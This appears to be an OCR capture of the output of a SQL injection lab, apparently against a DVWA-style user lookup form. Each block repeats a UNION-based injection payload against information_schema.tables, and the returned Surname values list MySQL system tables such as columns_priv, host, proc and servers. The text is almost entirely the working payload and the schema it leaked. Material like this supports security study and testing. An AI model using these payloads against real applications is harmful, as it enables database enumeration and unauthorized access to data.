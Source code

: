 	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: columns_priv
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: db
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: event
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: func
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: general_log
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: help_category
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: help_keyword
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: help_relation
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: help_topic
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: host
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: ndb_binlog_index
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: plugin
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: proc
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: procs_priv
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: servers
	
